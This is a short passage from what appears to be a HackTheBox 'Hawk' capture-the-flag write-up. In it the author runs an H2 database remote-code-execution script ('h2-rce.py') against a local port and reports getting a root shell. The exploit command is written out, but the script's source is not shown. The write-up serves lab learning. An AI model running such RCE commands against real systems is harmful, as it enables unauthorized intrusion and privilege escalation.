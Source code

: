 
Then, I run it as such:

```bash
python3 h2-rce.py -H 127.0.0.1:8082 -d jdbc:h2:~/drupal
```

And I get a shell as root:

![root-34](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Hawk/img/root-34.png)
